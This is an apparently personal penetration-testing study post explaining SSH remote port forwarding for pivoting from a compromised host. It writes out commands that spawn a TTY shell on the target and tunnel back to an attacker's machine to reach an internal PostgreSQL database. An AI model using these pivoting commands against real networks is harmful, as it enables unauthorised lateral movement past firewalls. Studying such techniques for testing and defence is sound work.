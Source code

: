 ```yaml
---
layout: post
title: Remote Port Forwarding
titledate: 09/23/23
tags: ["infosec", "info_gathering", "offsec", "tunnel"]
---
```


because of security limitations like a firewall, we will most likely be able to ssh out of our target back to our attacking machine

this is a perfect scenario for remote port forwarding

remote port forwarding is when we connect back to an attacker's SSH server, and bind the listening port there - this is similar to a reverse shell

if we examine a previously used example 

attacker -> target1 -> psql db -> smb target2

in this case we are not able to create a listening port on target1

what we can do is create a listening port on 2345 in loopback to catch the target 1 ssh client connection and push it back to the target1 and then forward on to our psql db

first we start the ssh server on the attacker machine

    $ sudo systemctl start ssh

ensure we are using a tty shell using python's pty

    target1: python3 -c 'import pty; pty.spawn("/bin/bash")'

and then on target1

    target1: ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 attacker@192.168.1.1
    target1: ssh -N -R 127.0.0.1:4444:10.4.247.215:4444 kali@192.168.45.154

we pass the -R parameter for remote port forwarding listen on port 2345 and forward all traffic to the psql db machine on 5432

on our attacking machine we can check if we have a listening connection on 127.0.0.1:2345

    $ ss -ntplu

to begin enumerating the psql db we use the local loopback interface 

    $ psql -h 127.0.0.1 -p 2345 -U postgres


